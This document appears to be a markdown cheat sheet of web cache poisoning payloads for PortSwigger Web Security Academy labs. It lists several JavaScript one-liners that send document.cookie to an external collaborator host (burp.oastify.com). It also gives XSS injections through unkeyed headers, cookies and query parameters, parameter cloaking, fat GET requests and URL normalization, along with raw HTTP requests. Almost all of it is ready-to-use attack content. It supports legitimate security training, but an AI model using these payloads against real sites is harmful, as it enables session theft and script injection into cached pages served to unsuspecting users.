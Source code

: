 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**:
  document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```
  or
  `fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });`
  or
  `location.href = 'http://burp.oastify.com?c=' + document.cookie;`
  or
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=evil'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
GET /?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script> 
``
or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim

